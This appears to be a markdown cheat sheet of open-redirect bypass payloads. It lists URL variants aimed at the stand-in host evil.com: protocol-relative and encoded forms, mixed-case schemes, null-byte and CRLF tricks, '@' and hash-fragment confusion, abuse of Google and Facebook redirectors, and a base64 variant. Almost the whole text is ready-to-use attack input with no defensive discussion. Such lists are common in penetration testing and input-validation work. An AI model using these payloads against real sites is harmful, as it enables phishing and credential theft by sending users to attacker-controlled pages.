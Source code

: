 
# Open Redirect Bypass Techniques

## Common Payload Variants:
```
https://example.com/redirect?url=//evil.com

https://example.com/redirect?url=http://evil.com

https://example.com/redirect?url=https://evil.com

https://example.com/redirect?url=evil.com

https://example.com/redirect?next=//evil.com

https://example.com/redirect?dest=//evil.com

https://example.com/redirect?continue=https://evil.com

https://example.com/redirect?redirect_uri=evil.com
```
## Bypass Techniques
### Protocol-relative bypass
``
//evil.com
``
###  URL encoding
```
%2F%2Fevil.com
http:%2F%2Fevil.com
```
### Obfuscated schemas
```
hTtP://evil.com
HtTpS://evil.com
```
###  Null byte (%00)
``
https://example.com/redirect?url=http://evil.com%00.example.com
``
### Open redirect within allowed domain (confuse validation)
```
https://example.com@evil.com
https://evil.com%23.example.com
https://evil.com%2F..example.com
```
### Use whitespaces or control characters
```
https://example.com/redirect?url=http://evil.com%09
https://example.com/redirect?url=http://evil.com%0d%0a
```
### Use “@” in URL
``
https://example.com/redirect?url=https://trusted.com@evil.com
``
## Redirection through hash fragment
```
https://example.com/redirect#http://evil.com
https://example.com/redirect?url=/redirect#http://evil.com
```
### Use of intermediate redirectors
```
https://www.google.com/url?q=https://evil.com
https://facebook.com/l.php?u=https://evil.com
```
### Base64 encoding tricks OR other encodings
```
https://example.com/redirect?data=aHR0cHM6Ly9ldmlsLmNvbQ==
```




